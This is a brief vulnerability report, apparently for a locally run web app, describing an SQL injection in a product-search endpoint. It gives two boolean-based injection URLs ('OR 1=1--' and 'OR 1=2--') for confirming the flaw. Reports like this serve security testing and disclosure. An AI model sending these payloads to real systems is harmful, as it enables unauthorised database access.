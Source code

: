 # SQL Injection

## Overview

An SQL injection vulnerability exists in

```
http://localhost:5000/api/products/search?keyword=AAAA
```

## Exploitation

An attacker can send specially craft queries to inject and execute arbitrary SQL query in the backend database. The presence of the SQL injection can be verified remotely using following two queries

```
http://localhost:5000/api/products/search?keyword=A%' OR 1=1--
http://localhost:5000/api/products/search?keyword=A%' OR 1=2--
```